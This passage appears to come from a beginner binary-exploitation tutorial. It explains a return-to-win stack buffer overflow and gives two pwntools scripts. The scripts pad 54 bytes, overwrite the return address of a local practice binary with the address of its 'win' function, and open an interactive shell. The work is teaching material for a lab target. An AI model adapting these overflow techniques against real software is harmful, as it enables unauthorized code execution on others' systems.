 We now have everything we need to redirect code execution to `win` and pwn the binary. To place the address of `win` onto the stack at the return we must send it to the binary in [little endian](https://en.wikipedia.org/wiki/Endianness) form since the binary runs on a 32 bit little endian machine. What this looks like is a backwards version of the address,

> \xf6\x91\x04\x08

as a byte string. This again can be simplified with pwntools using the `p32` function as follows.

```python
from pwn import *

target_binary = process('./win_example')
elf = ELF('./win_example')

# attach to the running program in
# pwdbg and break at the main function
# gdb.attach(target_binary, 'break main')

# receive the banner from the 
# program
log.info(target_binary.recvuntil('Here we goooooooooo...\n'))

# send pattern string to overflow buffer
# overflow_test = cyclic(100)
bytes_to_before_ret = cyclic_find(b'aaoa')		# 54
log.info(f'{bytes_to_before_ret}')				

# Hook the address of win from
# symbols
win_addr = elf.symbols['win']
log.info(f'Win @ {hex(win_addr)}')

# pad with A bytes to ret -> win
payload = b'A' * bytes_to_before_ret + p32(win_addr)

target_binary.sendline(payload)
# get the shell
target_binary.interactive()
```

Finally we can employ another pwntools function `fit` or `flat` to simplify the exploit with the knowledge that the return pointer is **54 bytes away** from the controlled buffer.

```python
from pwn import *

target_binary = process('./win_example')
elf = ELF('./win_example')

# receive the banner from the 
# program
log.info(target_binary.recvuntil('...\n'))
			
# Hook the address of win from
# symbols
win_addr = elf.symbols['win']
log.info(f'Win @ {hex(win_addr)}')

payload = fit({
	54: win_addr
})

target_binary.sendline(payload)
target_binary.interactive()
```
